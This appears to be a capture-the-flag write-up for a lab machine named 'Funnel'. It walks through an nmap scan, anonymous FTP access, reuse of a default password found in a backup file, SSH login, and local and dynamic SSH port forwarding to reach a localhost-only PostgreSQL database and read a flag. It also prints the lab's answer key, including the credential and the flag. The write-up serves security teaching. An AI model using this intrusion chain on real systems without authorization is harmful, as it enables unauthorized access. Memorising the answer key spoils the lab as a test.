









# Funnel

This write-up is provided strictly for educational purposes, to demonstrate how misconfigurations and insecure credential management can be identified and leveraged in controlled lab environments.

## Overview

This write-up documents the complete compromise of the _Funnel_ machine. The attack chain is based strictly on observable evidence: network reconnaissance, anonymous FTP access, credential reuse, SSH authentication, internal service discovery, SSH local port forwarding, PostgreSQL access, and flag retrieval.

All steps are reproducible and command-driven.

---

## Answers Summary

- **Open TCP ports** → `2`
- **FTP directory** → `mail_backup`
- **Default password** → `funnel123#!#`
- **User with unchanged password** → `christine`
- **Service on port 5432** → `postgresql`
- **Correct tunneling method** → `local port forwarding`
- **Database name** → `secrets`
- **Dynamic tunnel usable?** → `Yes`
- **Flag** → `cf277664b1771217d7006acdea006db1`

---

## 1. Initial Reconnaissance

A full TCP scan was performed:

```bash
sudo nmap -sCV <target-ip> -p- --min-rate=1000
```

This command performs:

- Full port scan (`-p-`)
- Default NSE scripts (`-sC`)
- Service/version detection (`-sV`)
- Increased scan speed (`--min-rate=1000`)

### Results

```
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu
```

Two TCP ports are open:

- **21/tcp** — FTP
- **22/tcp** — SSH

---

## 2. FTP Enumeration

Anonymous login was permitted:

```bash
ftp <target-ip>
```

Login:

```
Name: anonymous
Password: anonymous
```

Directory listing revealed:

```
mail_backup
```

The directory was accessed and files were downloaded for inspection.




---

## 3. Default Credential Discovery

Inside `mail_backup`, a password policy document revealed:

```
Default password: funnel123#!#
```

A welcome email listed newly created users:

- optimus
- albert
- andreas
- christine
- maria




The document stated that all users must change the default password immediately.

---

## 4. Identifying Weak Credential Usage

SSH authentication attempts were performed using the default password:

```bash
ssh christine@<target-ip>
```

Password used:

```
funnel123#!#
```

Authentication succeeded.

This confirms that **christine did not change the default password**.



---

## 5. Internal Service Discovery

Once logged in, listening services were enumerated:

```bash
ss -tulnp
```

Output revealed:

```
127.0.0.1:5432 LISTEN
```

To identify the associated service without assumptions:

```bash
cat /etc/services | grep 5432
```

Output:

```
postgresql 5432/tcp postgres
```

PostgreSQL processes were also observed:

```bash
ps aux | grep postgres
```



Multiple PostgreSQL background processes confirmed the service.

Conclusion: **PostgreSQL is running locally on port 5432.**

---

## 6. Accessing the Internal PostgreSQL Service

Since PostgreSQL listens only on localhost, it is not directly accessible from the attacker machine.

⚠️ Important: the SSH port forwarding must be launched from the attacker machine (Pwnbox/Kali), not from the target. Running `-L` on the target would attempt to bind the local port there and fail because PostgreSQL is already using 5432.

Local port forwarding was used from the attacker machine:

```bash
ssh -L 15432:127.0.0.1:5432 christine@<target-ip>
```


Verification on the attacker machine:

```bash
ss -tulnp | grep 15432
```

Output confirmed the SSH tunnel listening locally.

PostgreSQL connection via tunnel:

```bash
psql -h 127.0.0.1 -p 15432 -U christine
```

Password:

```
funnel123#!#
```

Connection succeeded.



---

## 7. Dynamic Tunnel Consideration

The lab also asks whether a dynamic tunnel could be used instead of local port forwarding.

A dynamic tunnel can be created using:

```bash
ssh -D 1080 christine@<target-ip>
```

This creates a SOCKS proxy on the attacker machine. Tools such as `proxychains` could then be used to access internal services like `127.0.0.1:5432` through the proxy.

Therefore, the answer is:

**Yes**, a dynamic tunnel could be used. However, local port forwarding is simpler and more direct for accessing a single internal service.

---

## 8. Database Enumeration

List databases:

```sql
\l
```

Database identified:

```
secrets
```



Connect to it:

```sql
\c secrets
```

List tables:

```sql
\dt
```

Result:

```
public | flag | table | christine
```

---

## 9. Flag Retrieval

Query the flag table:

```sql
SELECT * FROM flag;
```

Result:

```
cf277664b1771217d7006acdea006db1
```



---

## Key Takeaways

- Anonymous FTP access can expose sensitive internal documentation.
- Default credentials are a critical security risk when not enforced.
- SSH credential reuse increases lateral movement potential.
- Internal-only services are still exploitable through SSH tunneling.
- Proper service validation should rely on observable system evidence.

---

## Conclusion

The compromise followed a structured and evidence-based chain:

1. Full TCP reconnaissance.
2. Anonymous FTP access.
3. Default credential discovery.
4. SSH authentication using unchanged credentials.
5. Internal service identification.
6. Local port forwarding pivot.
7. PostgreSQL access.
8. Flag extraction.

This lab demonstrates how poor credential hygiene and exposed internal services can lead to complete compromise, even when services are bound only to localhost.
